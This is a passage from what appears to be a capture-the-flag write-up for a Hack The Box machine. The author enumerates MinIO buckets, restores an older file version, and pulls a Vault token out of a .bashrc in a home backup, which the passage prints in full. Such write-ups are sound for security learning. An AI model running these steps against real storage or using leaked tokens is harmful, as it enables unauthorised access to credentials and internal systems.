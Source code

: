 ```bash
[2023-11-08 00:35:36 EST]  48KiB STANDARD null v1 PUT btanner/Welcome.pdf
[2023-11-07 23:58:33 EST]     0B emoneypenny/
[2023-11-08 00:35:56 EST]  48KiB STANDARD null v1 PUT emoneypenny/Welcome.pdf
[2023-11-07 23:58:22 EST]     0B gmallory/
[2023-11-08 00:36:02 EST]  48KiB STANDARD null v1 PUT gmallory/Welcome.pdf
[2023-11-07 19:08:01 EST]     0B guest/
[2023-11-07 19:08:05 EST]  48KiB STANDARD null v1 PUT guest/Welcome.pdf
[2024-02-04 07:51:34 EST]   325B STANDARD null v1 PUT guest/etc_passwd
[2024-02-04 07:59:44 EST] 2.6KiB STANDARD null v1 PUT guest/test
[2023-11-07 23:59:05 EST]     0B jbond/
[2023-11-08 00:35:45 EST]  48KiB STANDARD null v1 PUT jbond/Welcome.pdf
[2023-11-07 23:58:10 EST]     0B omansfield/
[2023-11-08 00:36:09 EST]  48KiB STANDARD null v1 PUT omansfield/Welcome.pdf
[2023-11-07 23:58:45 EST]     0B rsilva/
[2023-11-08 00:35:51 EST]  48KiB STANDARD null v1 PUT rsilva/Welcome.pdf


┌──(kali㉿kali)-[~]
└─$ mc cp --recursive myminio/askyy/test/home_backup.tar.gz .
...htb/askyy/test/home_backup.tar.gz: 2.48 KiB / 2.48 KiB ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.97 KiB/s 1s
```


Since nothing useful was found in the files I checked the file versions again and downloaded the following.
```bash
[2023-11-09 16:36:30 EST] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT askyy/home_backup.tar.gz
```

```bash
┌──(kali㉿kali)-[/tmp/test]
└─$ mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ./    
...fall.htb/askyy/home_backup.tar.gz: 2.64 KiB / 2.64 KiB ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.12 KiB/s 1s
```


In the .bashrc file of this file version we find a vault token and another subdomain.
```bash
export VAULT_API_ADDR="<http://prd23-vault-internal.skyfall.htb>"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```


Download vault and export the above lines.
```bash
┌──(kali㉿kali)-[~]
└─$ wget <https://releases.hashicorp.com/vault/1.12.2/vault_1.12.2_linux_amd64.zip>
--2024-02-04 13:51:36--  <https://releases.hashicorp.com/vault/1.12.2/vault_1.12.2_linux_amd64.zip>
Resolving releases.hashicorp.com (releases.hashicorp.com)... 52.222.139.85, 52.222.139.32, 52.222.139.64, ...
Connecting to releases.hashicorp.com (releases.hashicorp.com)|52.222.139.85|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 81378321 (78M) [application/zip]
Saving to: ‘vault_1.12.2_linux_amd64.zip’

vault_1.12.2_linux_amd64.zip     100%[==========================================================>]  77.61M  15.5MB/s    in 4.6s    

2024-02-04 13:51:40 (17.0 MB/s) - ‘vault_1.12.2_linux_amd64.zip’ saved [81378321/81378321]


```